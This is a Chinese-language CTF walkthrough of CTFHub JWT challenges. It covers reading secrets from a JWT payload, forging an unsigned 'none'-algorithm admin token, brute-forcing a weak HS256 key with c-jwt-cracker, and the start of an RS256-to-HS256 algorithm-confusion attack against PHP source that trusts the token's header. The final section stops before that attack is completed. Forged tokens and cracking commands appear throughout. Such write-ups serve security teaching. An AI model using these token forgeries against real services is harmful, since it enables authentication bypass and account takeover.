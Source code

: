 ## JWT

[TOC]

### 敏感信息泄露

```
eyJBRyI6Ijk1MGZjYzJiZGQyZjQ0MX0iLCJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImJ4MzM2NjEiLCJwYXNzd29yZCI6InpieDEyMzQ1NiIsIkZMIjoiY3RmaHViezY3MjQ5YTA5ZCJ9.eNgGhgI2-Bf_txI0cGiS64HfDeErXt2p2mT5UA7E_zU
```

```
{"AG":"950fcc2bdd2f441}","typ":"JWT","alg":"HS256"}
{"username":"bx33661","password":"..........","FL":"ctfhub{67249a09d"}
```

得到flag

```
ctfhub{67249a09d950fcc2bdd2f441}
```



### 无签名

> 题目提示：
>
> 一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。尝试找到 flag。

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ.MaphZVk25q4stXxAmEgXmKCW7aUo3jDJtgv9DwahLwc

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ
MaphZVk25q4stXxAmEgXmKCW7aUo3jDJtgv9DwahLwc
```

![image-20240827164720451](https://gitee.com/bx33661/image/raw/master/path/image-20240827164720451.png)

修改加密算法为`none`

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

修改权限为`admin`

```
eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMiLCJyb2xlIjoiYWRtaW4ifQ
```

最后的构造：

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMiLCJyb2xlIjoiYWRtaW4ifQ.
```

提交之后得到flag

```
Hello admin(admin), only admin can get flag.
ctfhub{72d9055351fb13a911387e5c}
```





### 弱密钥

> 对称密码

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiZ3Vlc3QifQ.7KnITDRIAh7AyiR7ZdoqZPI7Dm0FfucDxLD5DRvLDdU.
```

![image-20240827170321755](https://gitee.com/bx33661/image/raw/master/path/image-20240827170321755.png)

安装一个工具`c-jwt-cracker`

```bash
git clone https://github.com/brendan-rius/c-jwt-cracker.git
sudo apt install gcc
sudo apt install make
#确保你已经安装openssl
sudo apt-get update
sudo apt-get install libssl-dev

make


#使用
./jwtcrack token
```

![image-20240827163718735](https://gitee.com/bx33661/image/raw/master/path/image-20240827163718735.png)

![image-20240827163928848](https://gitee.com/bx33661/image/raw/master/path/image-20240827163928848.png)

得到密钥是mqwr,修改JWT后得到

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJyb2xlIjoiYWRtaW4ifQ.aontCOVinnmKgiIxqni6kFwghAcXzjSyK9ayfwG7gBc
```

![image-20240827164106654](https://gitee.com/bx33661/image/raw/master/path/image-20240827164106654.png)

得到flag

```
ctfhub{d458c74724065f3a63099b1c}
```



### 修改签名算法

> 题目提示：
>
> 有些JWT库支持多种密码算法进行签名、验签。若目标使用非对称密码算法时，有时攻击者可以获取到公钥，此时可通过修改JWT头部的签名算法，将非对称密码算法改为对称密码算法，从而达到攻击者目的。

进入页面发现`publickey.pem`

```ABAP
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3/YJZ/OAQFDwtltlGrvn
wwRtvPixoZPTdkx7Nsn8bahOhOneb0IyrcznZbLomhaRZ2pHXOBgrtkOS8IWST9G
/06b+3n/TblGVj/ACXwPAeRzXSGuGzai+dxqLES2Xok+EBm8N0g90mB4yY9EFQc/
BCLFgnIc0Ylcx1ov+Ai9cJLCibbJtzM11p/I0oKBXBF4PjweCnL+gASO4mS+F+TR
1QcNE0uqd0GNCG+kMzBtGIiX+ulXawKOpyQY4PDc0y5yJHFL5+FX/QvbaOnmZ90K
da6JpXOAyO493ezEqLearwJalronv7vtDwksMvJSExlYGxrvk0nT7Xm6M6ufjdBF
rwIDAQAB
-----END PUBLIC KEY-----
```

下面一行本环境的源码

```php+HTML
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <title>CTFHub JWTDemo</title>
        <link rel="stylesheet" href="/static/style.css" />
    </head>
    <body>
        <main id="content">
            <header>Web Login</header>
            <form id="login-form" method="POST">
                <input type="text" name="username" placeholder="Username" />
                <input type="password" name="password" placeholder="Password" />
                <input type="submit" name="action" value="Login" />
            </form>
            <a href="/publickey.pem">publickey.pem</a>
        </main>
        <?php echo $_COOKIE['token'];?>
        <hr/>
    </body>
</html>

<?php
require __DIR__ . '/vendor/autoload.php';
use \Firebase\JWT\JWT;

class JWTHelper {
  public static function encode($payload=array(), $key='', $alg='HS256') {
    return JWT::encode($payload, $key, $alg);
  }
  public static function decode($token, $key, $alg='HS256') {
    try{
            $header = JWTHelper::getHeader($token);
            $algs = array_merge(array($header->alg, $alg));
      return JWT::decode($token, $key, $algs);
    } catch(Exception $e){
      return false;
    }
    }
    public static function getHeader($jwt) {
        $tks = explode('.', $jwt);
        list($headb64, $bodyb64, $cryptob64) = $tks;
        $header = JWT::jsonDecode(JWT::urlsafeB64Decode($headb64));
        return $header;
    }
}

$FLAG = getenv("FLAG");
$PRIVATE_KEY = file_get_contents("/privatekey.pem");
$PUBLIC_KEY = file_get_contents("./publickey.pem");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!empty($_POST['username']) && !empty($_POST['password'])) {
        $token = "";
        if($_POST['username'] === 'admin' && $_POST['password'] === $FLAG){
            $jwt_payload = array(
                'username' => $_POST['username'],
                'role'=> 'admin',
            );
            $token = JWTHelper::encode($jwt_payload, $PRIVATE_KEY, 'RS256');
        } else {
            $jwt_payload = array(
                'username' => $_POST['username'],
                'role'=> 'guest',
            );
            $token = JWTHelper::encode($jwt_payload, $PRIVATE_KEY, 'RS256');
        }
        @setcookie("token", $token, time()+1800);
        header("Location: /index.php");
        exit();
    } else {
        @setcookie("token", "");
        header("Location: /index.php");
        exit();
    }
} else {
    if(!empty($_COOKIE['token']) && JWTHelper::decode($_COOKIE['token'], $PUBLIC_KEY) != false) {
        $obj = JWTHelper::decode($_COOKIE['token'], $PUBLIC_KEY);
        if ($obj->role === 'admin') {
            echo $FLAG;
        }
    } else {
        show_source(__FILE__);
    }
}
?>
```

进入页面，注册admin/123456,查看cookie

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6Imd1ZXN0In0.wVLgMjzI-NnAeVTL4aMLuARJPJsizGuJc6wbP3dq5ExxlciEgcC3Ln2TU7pxSo8MV-MiofGd6lrBDXsBwTRUly4FiiMN1fOjRRQNZtVV4oEc1l9u21PxZt94uiMgePVK2U1nIqBZnl50HqCzqq4KH5M7zJiLKBBuYa9qr7y3uFmJYWIN2xKmi9xmQg1Ax2wnoGbXbtQWzex9mZ8nLjAWhulnhHbUlpYkiIKemoh23tR0PHbYlHxjAkQQdLJbxYv4RDMx80wrGHbbhSRRjn9_9ZVp06coL37VXr2heDokutzl_-5iFtPV51vJLMzBWyx4NUqELjzlW45GF1LXuPhcSg
```

![image-20240827170553593](https://gitee.com/bx33661/image/raw/master/path/image-20240827170553593.png)







资源来自：

https://www.nonevector.top/posts/17.html#3-JSON-Web-Token
